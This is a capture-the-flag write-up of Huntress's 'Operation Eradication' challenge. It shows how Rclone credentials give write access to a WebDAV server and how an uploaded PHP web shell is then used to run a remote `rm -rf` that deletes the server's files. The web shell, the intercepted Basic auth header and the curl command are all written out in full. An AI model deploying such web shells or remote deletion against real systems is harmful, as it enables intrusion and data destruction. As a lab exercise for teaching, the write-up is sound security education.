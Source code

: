 ```yaml
---
title: "Operation Eradication"
description: "Oh no! A ransomware operator encrypted an environment, and exfiltrated data that they will soon use for blackmail and extortion if they don't receive payment!"
author: "huntress"
date: "2023-10-14"
published: true
tags: ["capture the flag", "huntress", "malware", "web", "networks"]
---
```


# Operation Eradication

<aside>
Oh no! A ransomware operator encrypted an environment, and exfiltrated data that they will soon use for blackmail and extortion if they don't receive payment!
<strong>They stole our data!</strong>
Luckily, we found what looks like a configuration file, that seems to have credentials to the actor's storage server... but it doesn't seem to work. Can you get onto their server and delete all the data they stole!?
</aside>


The challenge gives us a containerized HTTP server instance - `http://chal.ctf.games:30236/` - alongside a file with no extension, named simply `operation_eradication`.
Passing it as an arg for the `file` command, we're told it's just plaintext ASCII. Viewing it's contents, we are shown the following:

```toml
type = webdav
url = http://localhost/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

Doing a little bit of googling, we can ascertain the remote server is likely running a `WebDAV` ("Web-Distributed Authoring and Versioning") protocol service, which is effectively a (now-obselete) type of file storage service.
As indicated by the config's `url` param, we are able to access the service's front-end by adjusting the `localhost` address to our assigned wide-area address, `http://chal.ctf.games:30236/webdav`.
The page is simply a blank white screen, so I assume we need to authenticate before we are able to see the _actual_ content.

After briefly reviewing WebDAV documentation alongside the tech stack used on the WebDAV endpoint, we can see the server accepts authentication via a `Basic` Authorization header, which we can craft by running
`echo -n <username>:<password> | base64 --wrap=0` in a bash terminal, replacing the `<username>` and `<password>` strings with the user's authentication info.

![1](/img/operation_eradication_img/Untitled.png)
>The root endpoint

![Untitled](/img/operation_eradication_img/Untitled%201.png)
>The `/webdav` endpoint

To me, those `user` and `pass` strings look like they've been hashed or encrypted, but we can try to make a GET request using the strings as the username and password anyway:
```bash
# base64-encode `username:password`
USER_AUTH=$(echo -n "VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r:HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5" | base64 --wrap=0)

# make a request
curl http://chal.ctf.games:30236/webdav
   -H "Authorization: Basic $USER_AUTH"
```

As expected, this isn't correct.

![Untitled](/img/operation_eradication_img/Untitled%202.png)

We can try to do a bit of hashcracking & decryption, but we have no idea how these strings have been hashed - the `user` and `pass` strings are 72 characters long (i.e they don't look like a common hash type),
and preliminary hash analysis tools, google, and ChatGPT similarly have no idea.

We can instead Google the config file's layout, and find that it (probably) belongs to a WebDAV client CLI tool named `Rclone`.

Downloading Rclone, I was unable to simply dump the provided configuration file into the corresponding Rclone folder, but we can instead run through the setup to create our own (empty) config file,
and then replace it's content with that of the provided file:

```powershell
.\\rclone config

# ...
# this runs us through a config setup wizard...
# ...

Current remotes:

Name                 Type
====                 ====
huntress             webdav

# ...

s) Set configuration password
q) Quit config
e/n/d/r/c/s/q> q

# then replace it's contents with our desired config
# (don't forget that the service isn't running locally):

echo "[huntress]
type = webdav
url = http://chal.ctf.games:30236/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5" > C:\\Users\\pls\\AppData\\Roaming\\rclone\\rclone.conf

cat C:\\Users\\pls\\AppData\\Roaming\\rclone\\rclone.conf
[huntress]
type = webdav
url = http://chal.ctf.games:30236/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

Having never used Rclone or interacted with a WebDAV service, it took a moment to get used to the commands and how we are meant to interact with a WebDAV service.
Essentially, we don't have to login and use an interactive shell like we might over SSH or FTP; rather, we simply indicate what config to use and run the command.

Lets try listing the WebDAV’s contents to see if our configuration works:

```powershell
.\\rclone tree huntress:
/
├── Accounting
│   ├── 2021
│   │   └── AnnualReport.pdf
│   ├── 2022
│   │   ├── Quarter1_MonthlyRevenue.xlsx
# ...
│   └── Training
│       ├── 2022
│       │   ├── AdvancedSalesSkillsCourse.pdf
│       │   └── NewSalesRepTraining.pdf
│       └── SalesTrainingManual.pdf
```

Looks like its functional. Unfortunately, we - or, rather, our WebDAV credentials - do not have the necessary permissions to run `.\\rclone delete huntress:/`.

We do, however, have write permissions, and so we are able to upload and save files onto the machine.

As is my immediate thought with any PHP service during a CTF, we are probably meant to gain code execution as `www-data` (who would usually have ownership of `/var/www/html/`, which likely contains the `/webdav` endpoint),
so my immediate thought is that we can try to execute code through a PHP script.

As previously stipulated, Rclone/WebDAV is non-interactive, so we’ll have to try to run something from the HTTP service. The service isn't locally available either, so the remote machine probably can't issue a direct call to our
machine, and we would need to run a tunnel via `ngrok` or something, and I honestly don’t want to overcomplicate the task when we can do what we want via a PHP `cmd` script and pass the server shell commands in GET request parameters:

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```
> A simple PHP script that will run commands on the remote machine via the `system($cmd)` builtin, where `$cmd` is defined through a URL GET request parameter.

Copying the `cmd` script over, we are able to see that this is successfully written in the root directory of the WebDAV endpoint:

```powershell
.\\rclone copy C:\\...\\exec.php huntress:/
.\\rclone ls huntress:/
       50 exec.php
  1745724 ProductDevelopment/2022/ProductRoadmap.pdf
  3570194 ProductDevelopment/2023/ProductRoadmap.pdf
  3510400 HumanResources/EmployeeHandbook.pdf
  7680849 ProductDevelopment/Specifications/NewProductSpecs.pdf
  3891213 ProductDevelopment/Specifications/UpdatedProductSpecs.pdf
  ...
```

We are now missing one final piece before we can wipe the endpoint - we still don’t have the authentication info, and the approach I am taking requires that we make a request _without_ Rclone.

Because the service uses unencrypted HTTP, we can intercept traffic routed between Rclone and WebDAV using `Wireshark`; the result of which is the following:

```powershell
PROPFIND /webdav/ HTTP/1.1
Host: chal.ctf.games:30236
User-Agent: rclone/v1.64.2
Authorization: Basic VkFIeWNZaEsyYXc5VE5GR1NwTWYxYl8yWk5uWnVBTmNJOC0yNmF3R0xZa3dSekp3UF9idU5zWjFlUXdSa21qUW1WenhNZTVyOlN1cGVyRXh0cmVtZWx5U2VjdXJlUGFzc3dvcmRMaWtlQWx3YXlz
Depth: 1
Referer: http://chal.ctf.games:30236/webdav/
Accept-Encoding: gzip
```
> Intercepted header information from a `.\\rclone ls huntress:/` command.

We can now use `curl` to execute `bash -c "rm -rf <[the webdav endpoint]>...";`  as a `GET` param passed to the `exec.php` file we just uploaded - I’ve included an additional `echo 'done'` command after running `rm -rf` just to
ensure I know whether or not we executed any commands, as a sanity check if something doesn't end up working.

Realistically, though, we are just querying the script we uploaded, and using the URL param `?cmd=..` to open a bash shell and literally just execute bash commands. There is the authentication stuff here, but that was basically
pre-generated by Wireshark anyway.

The final request (along with it's response) is as follows:

```bash
curl -i -s -k -X $'GET' \\
    -H $'Host: localhost' -H $'User-Agent: rclone/v1.64.2' \\
    -H $'Authorization: Basic VkFIeWNZaEsyYXc5VE5GR1NwTWYxYl8yWk5uWnVBTmNJOC0yNmF3R0xZa3dSekp3UF9idU5zWjFlUXdSa21qUW1WenhNZTVyOlN1cGVyRXh0cmVtZWx5U2VjdXJlUGFzc3dvcmRMaWtlQWx3YXlz' \\
		-H $'Depth: 1' -H $'Referer: http://chal.ctf.games:30236/webdav/' -H $'Accept-Encoding: gzip' -H $'Content-Type: application/x-httpd-php' \\
    $'http://chal.ctf.games:30236/webdav/exec.php?cmd=bash+-c+\\"rm+-rf+/var/www/html/webdav/*;+echo+\\'done.\\'\\"'

HTTP/1.1 200 OK
Date: Fri, 20 Oct 2023 18:24:02 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Content-Encoding: gzip
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
```

We can go back and refresh the webapp's root directory, where we are presented with our flag:

![Untitled](/img/operation_eradication_img/Untitled%203.png)

